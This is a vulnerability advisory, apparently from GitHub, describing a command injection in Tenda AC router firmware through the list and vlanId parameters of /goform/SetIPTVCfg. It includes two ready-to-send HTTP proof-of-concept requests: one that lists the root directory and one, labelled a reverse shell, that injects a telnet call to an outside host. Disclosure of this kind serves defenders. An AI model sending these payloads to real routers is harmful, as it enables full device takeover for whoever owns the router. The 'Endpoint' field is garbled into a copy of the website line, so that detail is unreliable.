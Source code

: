 # Tenda AC Series Routers Command Injection in formSetIptv

## Overview
Tenda AC Series Routers (e.g., AC15, AC23) are consumer-grade wireless routers supporting IPTV configuration, firewall, and multi-WAN features. A command injection vulnerability exists in the formSetIptv function, which handles requests to the /goform/SetIPTVCfg endpoint. Attackers can inject arbitrary system commands via the list or vlanId parameters, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC Series Routers
- **Firmware**: Tenda AC6V1.0 V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681]
- **Endpoint**: `- **Website**: [https://www.tenda.com.cn/`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The formSetIptv function processes POST requests to /goform/SetIPTVCfg. It extracts user-controlled parameters list and vlanId via sub_2B794 (a parameter parsing function) and passes them to the sub_ADBC0 helper function.

In sub_ADBC0, these parameters are directly interpolated into nvram set commands (e.g., nvram set adv.iptv.stballvlans="%s") without any input sanitization. The commands are executed via doSystemCmd, a function that runs system commands directly.

By injecting special characters (e.g., "; , #), attackers can escape the quoted context of the nvram command and execute arbitrary system commands on the router.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: List Root Directory (`ls /`)
```http
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; ls /"
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

### PoC 2: Reverse shell
``POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; telnet 192.168.x.x 9999"

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
